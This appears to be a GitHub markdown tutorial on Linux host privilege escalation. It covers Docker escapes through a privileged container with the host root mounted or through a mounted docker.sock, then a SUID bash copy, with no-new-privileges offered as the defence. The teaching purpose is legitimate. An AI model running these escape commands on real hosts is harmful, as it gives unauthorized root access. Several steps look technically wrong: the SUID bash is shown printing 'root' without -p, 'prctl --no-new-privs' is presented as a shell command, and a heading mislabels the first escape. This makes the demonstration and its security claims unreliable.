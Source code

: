 <img width="2542" height="1138" alt="image" src="https://github.com/user-attachments/assets/2fb5d91d-7867-41fb-846a-06f736e6b897" />


# Host Machine Privilege Escalation Attempt


## Unsave Container Mounting docker.sock in container  
```bash
docker run -it --rm --privileged -v /:/mnt ubuntu:24.04 bash
ls /mnt
cat /mnt/etc/passwd

chroot /mnt /bin/bash (You’re now effectively in the host filesystem as root)

Docker socket escape

docker run -it -v /var/run/docker.sock:/var/run/docker.sock docker:24.0.5 sh
docker ps (inside container we can run)
docker run -it --rm --privileged ubuntu:24.04 bash (Launh Container)
```
### Output:  Hacker Can Run Docker Commands from inside the container

## Goal
Demonstrate how a normal user could try to gain root access on a Linux host, and how `no-new-privileges` can prevent it.

---

## Step 1: Create a Normal User
```bash
sudo useradd -ms /bin/bash testuser
sudo passwd testuser
su - testuser
```
- `testuser` is a normal user.  
- Normal users should **not be able to perform root-only tasks**.

---

## Step 2: Try a Root-Only Command
```bash
ls /root
```
- Output:
```
ls: cannot open directory '/root': Permission denied
```
- Result: Normal user cannot access root files 

---

## Step 3: Simulate a Vulnerable Program
Some programs have **SUID permission**, which can let normal users become root.

```bash
sudo cp /bin/bash /tmp/bash-root
sudo chmod +s /tmp/bash-root
```
- `/tmp/bash-root` can now run **as root** if executed.

---

## Step 4: Test Privilege Escalation
As `testuser`:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `root` → dangerous!  
- Explanation: Any normal user could now become root.

---

## Step 5: Protect with `no-new-privileges`
`no-new-privileges` prevents processes from gaining extra privileges.

1. Run a new bash shell with protection:
```bash
sudo unshare --pid --fork --mount-proc bash
prctl --no-new-privs
```

2. Test the same SUID binary:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `testuser` → cannot become root 


---

## Step 6: Explanation
- **Without `no-new-privileges`:** Vulnerable programs can give users root → host at risk.  
- **With `no-new-privileges`:** Users cannot gain extra privileges → host is safer.

---



## Summary Table

| Scenario                     | Result Without Protection | Result With `no-new-privileges` |
|-------------------------------|--------------------------|--------------------------------|
| Normal user runs root command | Fails                    | Fails                          |
| User runs SUID binary         | Succeeds → becomes root  | Fails                          |
| Risk                          | High                     | Low                            |
